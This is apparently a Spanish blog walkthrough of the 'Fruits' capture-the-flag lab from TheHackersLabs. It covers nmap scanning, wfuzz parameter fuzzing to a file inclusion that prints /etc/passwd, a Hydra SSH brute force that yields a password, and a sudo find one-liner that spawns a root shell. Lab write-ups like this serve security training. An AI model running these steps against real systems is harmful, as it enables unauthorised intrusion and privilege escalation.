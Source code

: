```yaml
---
title: "thehackerslabs.com: máquina Fruits"
published: true
date: 2024-05-05 18:10:00
tags: [SSH Brute Force, Nmap, Privileged Escalation, Hydra, Apache Server, Wordlist Attack, Directory Traversal, Linux Security Bypass, Pentesting Lab, Fuzzing, Root Access, Sudo, Find Exploit]
image: /blog/assets/thehackerslabs.com_fruits/portada.png
---
```



<br>
![](/blog/assets/thehackerslabs.com_fruits/portada.png)
<br>


### Descripción
* * *
<br>
En este informe, veremos un recorrido detallado de los pasos que tomamos para explotar una máquina vulnerable del laboratorio de TheHackersLabs.com. La máquina objetivo es un sistema con el nombre de host `Fruits`. Mediante el uso de herramientas de reconocimiento como `nmap`, `wfuzz` y `hydra`, junto con técnicas de fuerza bruta, logramos comprometer con éxito el sistema objetivo.


### Enlace de Lab:
[thehackerslabs: Fruits](https://thehackerslabs.com/fruits/).


### Dificultad:
Fácil.






### Solución
* * *
<br>


Para iniciar el proceso de `vulnerar` esta máquina, lo primero que haremos es con ayuda de `nmap` ver a qué nos estamos enfrentando.


``` shell
nmap -p- -Pn  -sS --min-rate 5000 --open 192.168.1.122  -oX report.xml -v
```
donde:


`-p-`: Escanea todos los puertos existentes (0-65365)


`-Pn`: Evita que `nmap` realice un descubrimiento de host antes de realizar el escaneo


`-sS`: Realiza un escaneo de puertos TCP mediante un escaneo SYN. Esto implica enviar un paquete SYN y esperar una respuesta; si el puerto está abierto, el host responderá con un paquete SYN-ACK


`--min-rate`: Configura la tasa mínima de paquetes enviados a 5000 paquetes por segundo. Esto acelera el escaneo, ya que `nmap` enviará paquetes a una tasa muy alta


`--open`: Esta opción le indica a `nmap` que sólo muestre los puertos que están abiertos.


`-oX`: Guarda la salida del escaneo en un archivo XML llamado `report.xml`


`-v`: Aumenta la verbosidad de la salida de `nmap`, proporcionando más detalles sobre lo que está haciendo `nmap`.


<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_1.JPG)
<br>


Obtenemos 2 puertos abiertos,  `22 -> ssh` y `80 -> http`  .


Ahora es momento de ver con qué versiones nos estamos enfrentando de cada servicio. Para ello implementamos el código:


```shell
nmap -sCV -p222,80 192.168.1.122 -oN ports_version
```


Donde:


**`-sC`**Esta opción le dice a `nmap` que ejecute scripts predeterminados contra los puertos encontrados.
  
**`-sV`**: Le indica a `nmap` que intente determinar la versión de los servicios que se están ejecutando en los puertos abiertos.


>*sCV es la combinación de ambos comandos*.




![](/blog/assets/thehackerslabs.com_fruits/paso_2.JPG)


Nos fijamos que por el `puerto 22` se encuentra un servicio `ssh` no vulnerable, ya que está en últimas versiones. Pues debemos de ir a la web y ver que nos encontramos.


Para ver con qué tecnologías se encuentra la web corremos el siguiente comando:


```shell
whatweb http://192.168.1.122
```
<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_3.JPG)
<br>


Vemos que hay un `Apache 2.4.57` el cual, hasta el momento, no es vulnerable. Pues no nos queda más opción que entrar a la web y buscar un vector de entrada.
<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_4.JPG)
<br>


Aparentemente, es una web con un buscador sencillo. Pero tiene un error. Cuando presionamos sobre el botón `Buscar` nos manda al archivo php llamado `buscar.php` el cual tiene el parámetro `búsqueda` y este siempre dará error, no importa que busquemos.


<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_5.JPG)
<br>


Es momento de hacer un `web fuzzing` con un diccionario especializado para estos casos y que también busque las extensiones `html` y `php`. Quedando de la siguiente forma:


<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_6.JPG)
<br>


Luego de un tiempo, cuando vemos los resultados del `fuzzeo` nos percatamos que hay un archivo de extensión `php` llamado `fruits.php`. El cual si ingresamos en él, es una página en blanco.




<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_7.JPG)
<br>


Esto nos lleva a pensar que, al igual que `buscar.php` este recibe un parámetro el cual no tenemos.


Para determinar cuál es el parámetro que necesitamos, lo que debemos correr es, con una ruta del sistema, en este caso `/etc/passwd`, hacer fuerza bruta con el valor del parámetro. Quedando el comando `wfuzz` de la siguiente manera:


```shell
wfuzz -c --hc 404 --hl 1 -t 200 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt 'http://193.168.1.122/fruits.php?FUZZ=/etc/passwd'
```




<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_8.JPG)
<br>


Vemos que el comando file sí que nos da un resultado, y de paso nos imprime el valor de `/etc/passwd` el cual nos servirá para ver los usuarios del sistema


```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
mysql:x:102:110:MySQL Server,,,:/nonexistent:/bin/false
bananaman:x:1001:1001::/home/bananaman:/bin/bash
```
de aquí nos interesa `bananaman` ya que es un usuario del sistema y tiene acceso a la `/bin/bash`.


Con ayuda de `Hydra`, ejecutamos un ataque de `fuerza bruta` mediante el `puerto 22`


<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_9.JPG)
<br>


Determinamos que su clave es `celtic`, así que es momento de acceder mediante `ssh` a la máquina virtual.


<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_10.JPG)
<br>


Una vez ya accedimos a la máquina, es momento de determinar cuáles comandos y/o binarios tenemos acceso para poder explotar y `escalar privilegios`.




Con la ejecución del código `sudo -l` vemos que tenemos acceso como usuario root al comando `find`


<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_11.JPG)
<br>


Si vamos a la web de gtfobins[^1] vemos que es vulnerable y podemos obtener acceso `root` mediante este, con la siguiente secuencia de comandos


```shell
sudo /usr/bin/find -exec /bin/sh -p \; -quit
```
<br>
![](/blog/assets/thehackerslabs.com_fruits/paso_12.JPG)
<br>


Y al final obtenemos `root`, es decir, la máquina está comprometida.




<br>
### _Referencias_


[^1]:[Gtfobins](https://gtfobins.github.io/)





